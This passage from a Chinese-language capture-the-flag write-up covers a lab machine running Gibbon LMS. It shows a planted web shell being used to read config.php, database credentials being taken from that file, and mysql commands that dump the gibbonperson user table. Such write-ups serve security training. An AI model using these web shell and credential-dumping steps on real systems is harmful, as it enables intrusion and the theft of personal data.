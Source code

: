 这里我尝试过反弹**Shell**，可以写一个**Meterpreter**。

通过**dir**可以看到当前目录存在一个**config.php**

![](./images/image-281.png)

```
http://frizzdc.frizz.htb/Gibbon-LMS/asdf.php?cmd=type config.php
```

得到一个数据库用户名和密码

```
<?php
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

尝试进入数据库看看信息

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
```

![](./images/image-282.png)

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
```

![](./images/image-286.png)
